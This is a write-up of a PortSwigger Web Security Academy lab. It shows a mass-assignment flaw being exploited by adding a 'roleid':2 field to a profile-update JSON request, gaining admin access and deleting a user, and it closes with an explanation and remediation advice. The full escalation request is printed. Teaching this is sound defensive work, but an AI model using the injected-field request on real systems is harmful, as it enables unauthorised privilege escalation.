




# User role can be modified in user profile

**Lab:** PortSwigger Web Security Academy — *User role can be modified in user profile* (Practitioner).

> This lab has an admin panel at `/admin`, only accessible to logged-in users with a `roleid` of `2`. Solve the lab by accessing the admin panel and using it to delete the user `carlos`. Credentials: `wiener:peter`.

This is a **mass-assignment** access-control flaw. The profile-update endpoint accepts a JSON body and binds whatever fields it receives straight onto the user record — including `roleid`, which controls privilege. By adding that field ourselves we promote our own account.

## 1. Capture the change-email request

Log in as `wiener:peter`, go to **My account**, submit the *Update email* form, and capture the request in Burp. The account page is a JSON API: the update sends `{"email":"..."}` and the response echoes the full user object, which reveals the field that matters — `roleid`:



```http
POST /my-account/change-email HTTP/2
Host: YOUR-LAB-ID.web-security-academy.net
Cookie: session=...
Content-Type: text/plain;charset=UTF-8

{
    "email":"hello@vapt.in"
}
```

The response includes the current role:

```json
{
    "username":"wiener",
    "email":"hello@vapt.in",
    "apikey":"4kPxWBbb6Jm2uS84wuyPoOeoEsw8dbfN",
    "roleid":1
}
```



## 2. Add roleid to the request body

Send the request to Repeater and add a `roleid` field with the admin value `2` to the JSON body:

```http
POST /my-account/change-email HTTP/2
Host: YOUR-LAB-ID.web-security-academy.net
Cookie: session=...
Content-Type: text/plain;charset=UTF-8

{
    "email":"hello@vapt.in",
    "roleid":2
}
```

The response now shows `"roleid":2` — the endpoint accepted and stored our injected field:



## 3. Open the admin panel and delete carlos

Reload the account page; the **Admin panel** link now appears. Open `/admin` and click **Delete** next to `carlos`:



The lab is solved.

## Why the attack works

The endpoint performs **mass assignment**: it binds every field in the request body to the user model without an allow-list. `roleid` is a sensitive, privilege-controlling field that should never be writable by the user, but the API never distinguishes it from the harmless `email` field.

## Remediation

Bind only an explicit allow-list of fields that a user is permitted to change (here, just `email`). Keep privilege-controlling fields such as `roleid` strictly server-managed, and reject or ignore any attempt to set them from client input.
